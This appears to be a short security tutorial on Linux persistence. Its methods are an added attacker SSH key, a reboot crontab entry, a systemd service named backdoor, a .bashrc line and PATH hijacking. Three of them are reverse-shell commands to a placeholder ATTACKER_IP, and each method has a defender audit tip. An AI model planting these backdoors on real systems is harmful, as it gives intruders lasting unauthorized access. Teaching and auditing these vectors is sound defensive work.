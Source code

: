 # Day 19 – Linux Persistence Techniques
<img width="1200" height="400" alt="image" src="https://github.com/user-attachments/assets/889f5ffe-e362-4c06-a357-c83ab0bb131b" />

## 🔹 Introduction
Persistence is the ability of an attacker to maintain access to a compromised system, even after reboots or patches. Understanding persistence methods is critical for red teamers, penetration testers, and defenders alike.

---

## 🔹 1. SSH Key Persistence
Attackers often install their SSH public key to maintain long-term access.

```bash
mkdir -p ~/.ssh
echo "attacker_public_key" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

- This allows passwordless login at any time.
- Defenders should regularly check for unauthorized entries in `~/.ssh/authorized_keys`.

---

## 🔹 2. Crontab Persistence
Attackers abuse cron jobs to execute malicious commands automatically.

```bash
(crontab -l ; echo "@reboot /bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1") | crontab -
```

- This ensures a reverse shell starts at every reboot.
- Defenders should monitor `/var/spool/cron/` and user crontabs.

---

## 🔹 3. Systemd Service Backdoor
Attackers can create persistent malicious services.

```bash
cat << EOF > /etc/systemd/system/backdoor.service
[Unit]
Description=Backdoor Service

[Service]
ExecStart=/bin/bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1

[Install]
WantedBy=multi-user.target
EOF

systemctl enable backdoor.service
systemctl start backdoor.service
```

- The service runs on boot, maintaining persistence.
- Defenders should audit `/etc/systemd/system/` for unusual services.

---

## 🔹 4. Bashrc / Profile Hijacking
Malicious commands can be hidden in `.bashrc` or `/etc/profile`.

```bash
echo "/bin/bash -i >& /dev/tcp/ATTACKER_IP/6666 0>&1" >> ~/.bashrc
```

- This executes the payload whenever a new shell is started.
- Defenders should monitor `.bashrc` and `/etc/profile` for unauthorized changes.

---

## 🔹 5. PATH Hijacking
Attackers place trojanized binaries earlier in the PATH variable.

```bash
echo 'export PATH=/home/user/.bin:$PATH' >> ~/.bashrc
```

- Example: dropping a fake `ls` or `sudo` in `/home/user/.bin`.
- Defenders should validate `$PATH` and inspect unusual binary directories.

---

## 📌 Summary
- Persistence ensures attackers maintain access across reboots.
- Common persistence vectors: **SSH keys, crontabs, systemd services, bashrc hijacking, PATH manipulation**.
- Defenders should routinely audit persistence points.

---

📢 Follow [CyberSecPlayground](https://t.me/cybersecplayground) for daily Linux hacking lessons, persistence tricks, and real-world pentesting insights!
